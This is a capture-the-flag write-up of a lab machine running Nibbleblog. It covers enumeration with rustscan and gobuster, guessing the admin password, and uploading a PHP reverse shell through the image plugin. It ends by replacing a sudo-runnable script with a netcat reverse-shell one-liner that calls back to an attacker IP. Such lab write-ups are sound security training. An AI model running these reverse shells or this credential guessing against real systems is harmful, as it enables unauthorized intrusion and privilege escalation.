---

### Knowledge Gained 🙉
- sudo
- gobuster


---

## Enumeration

First, we start off a rustscan scan and the scan returned 2 open ports, port 22 SSH and port 80 HTTP.

```
rustscan -a 10.10.10.75
```



I visited the HTTP server and its just a empty page with one line of text.



I then checked the source code of the website and found that theres a line of **commented code** pointing to `/nibbleblog`



I then followed to visit the page and it seems like a **blog** page.



Next, I ran `gobuster` to find for more directories. There are a few interesting sub-directories..

```
gobuster dir -u http://10.10.10.75/nibbleblog -t 40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt

```

## Foothold



I first visited the `admin.php` page, seems like a login page for the admin panel. I tried the default creds for nibbleblog, but none of them worked.



I then move on to the `/content` page and found something interesting. Under the `/private/user.xml` file, there is some info about the user account. It seems like the username of the account is `admin`.



Now we need admin credentials. When I’m presented with an enter credentials page, the first thing I try is **common credentials** (admin/admin, admin/nibbles, nibbles/nibbles, nibbles/admin). If that doesn’t work out, I look for **default credentials** online that are specific to the technology. Last, I use a password cracker if all else fails. In this case, the common credentials `admin:nibbles` worked!

Next, I searched and see if I could find any exploit related to nibbleblog, and I found one [exploit](https://ranakhalil101.medium.com/hack-the-box-nibbles-writeup-w-o-metasploit-499ae2517ccd) that we could possibly use.



According to the exploit, we could upload a php shell through the **image plugins**, so I followed the POC and uploaded a reverse PHP shell I got from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)



Then I set up a listener and invoke the reverse shell. BOOOM! We got a reverse shell back!



While getting the user flag, I noticed there is a `personal.zip` file in the user directory also. I unzip the file and found a script inside. After using `sudo -l` , it appears that we can run this script as `sudo`! So what we need to do next is just replace the `monitor.sh` script with a reverse shell code.



I replaced the monitor.sh file with the code I got from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) also: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9002 >/tmp/f
```

And thats it, we have succesfully rooted this box!



Thats all for this box, thanks for reading!